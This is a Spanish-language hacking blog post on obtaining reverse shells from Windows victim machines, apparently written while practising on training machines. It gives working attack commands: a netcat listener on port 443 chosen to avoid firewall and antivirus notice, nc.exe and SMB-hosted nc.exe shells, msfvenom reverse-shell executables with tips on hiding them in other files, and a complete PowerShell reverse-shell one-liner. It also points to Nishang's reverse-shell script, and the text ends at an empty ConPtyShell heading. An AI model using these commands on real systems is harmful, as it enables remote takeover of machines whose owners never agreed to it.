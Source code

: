```yaml
---
layout: single
title: Reverse Shells en Windows
excerpt: "En este artículo vamos a ver las formas que hay de mandarnos reverse shells cuando la maquina victima es Windows."
date: 2022-08-26
classes: wide
header:
  teaser: /assets/images/web-hacking/reverse-shell-windows/netcat.PNG
  teaser_home_page: true
  icon: 
categories:
  - Windows
tags:  
  - Windows
  - Reverse shell
---
```


He hecho este artículo ya que las `reverse shells` en `Windows` son diferentes a Linux y ya que he empezado a aprender Hacking para Windows, ya que en linux ya soy capaz de resolver maquinas sin ayuda pues se me ha ocurrido hacer este post.

# PONERNOS A LA ESCUCHA: 

Lo primero, antes de mandarnos una consola desde la máquina víctima necesitamos un `puerto` donde estemos `a la escucha` para que nos llegue ahí la shell.

Para esto solemos utilizar el puerto `443/tcp`, ya que es un puerto por el cual se transmiten datos en casos de páginas web, ya que es el puerto por el cual suelen correr los servicios `https`. Por lo tanto, los `firewalls y antivirus` `pueden detectar` datos transmitirse por ese puerto, pero `no le dan importancia`, ya que es normal que se manden datos por ahí. Y, por lo tanto, `somos menos detectables`.

Para esto utilizaremos el siguiente `comando` estando en `root`:

```
> nc -nlvp 443
listening on [any] 443 ...
```

## FORMA MEJORADA

Por lo que he estado viendo hay un comando que funciona mejor ya que nos permite utilizar atajos de teclado como `Ctl+L`:

```
> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

# MANDARNOS UNA REVERSE SHELL
## Nc.exe

Este binario es `similar a netcat` en `Linux`, pero este funciona en `Windows`, tanto en 32, como en 64 bits.

Para esto usaremos el siguiente comando:

```
> nc.exe -e cmd.exe <nuestra ip> 443
```

En caso de que no este instalado lo podemos descargar desde: `https://github.com/int0x33/nc.exe/`

Con eso podemos mandarlo en un archivo malicioso y que lo ejecute o que el archivo lo descargue...

Pero también podemos montarnos un servidor `SMB` y utilizarlo desde ahí poniendo el siguiente comando en la máquina Windows:

```
> \\192.168.118.10\pwned\nc.exe -e cmd.exe <ip> <puerto>
```

## Msfvenom

Msfvenom no solo es útil cuando nos generamos `shellcodes` para los `Buffer Overflow`, también lo es para `crear binarios que nos ejecuten una shell en Windows`. En concreto, los dos `payloads que nos pueden interesar` (aunque hay más y de muchos tipos) son los siguientes:

```
> msfvenom -l payloads | grep -i 'windows' | grep -i '/shell_reverse'
windows/shell_reverse/tcp                            Connect back to attacker and spawn a command shell
windows/x64/shell_reverse/tcp                        Connect back to attacker and spawn a command shell (Windows x64)
```

Si la máquina víctima es de `32 bits` usaremos el primero y si es de `64` usaremos el segundo.

Con el siguiente comando creamos un `ejecutable` que si lo ejecutamos en la máquina víctima nos mandará una `reverse shell`. Claro, para eso tendremos que `ocultarlo` dentro de otro archivo, o también podríamos ponerlo en un servidor web hecho con python y que la máquina víctima lo descargue y lo ejecute, pero no me quiero extender mas aquí.

```
> msfvenom -p <payload> LHOST=<ip> LPORT=443 -a x<arquitectura> -f exe -o shell.exe
```

## Powershell Reverse Shell One-Liner

En `Powershell` que es un lenguaje muy potente que maneja `Windows` hay un comando con el que nos podemos mandar una reverse shell con una única linea de codigo:

```
> $client = New-Object System.Net.Sockets.TCPClient("<tu IP>",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

No es muy recomendable utilizar este metodo para obtener acceso desde una `webshell` o desde una `cmd`, pero `es muy util para Rubber Duckys`.

## Nishang

Nishang es un `repositorio` el cual contiene una gran cantidad de `scripts` de powershell usados para la seguridad ofensiva. Su repositorio oficial es el que podéis visitar en este enlace: `https://github.com/samratashok/nishang`

Entre todos los scripts que tiene, `hay uno` en concreto bastante famoso llamado `Invoke-PowerShellTcp.ps1`, el cual, como no, `nos invoca una reverse shell con una powershell`:

![](/assets/images/web-hacking/reverse-shell-windows/script.PNG)

## ConPtyShell
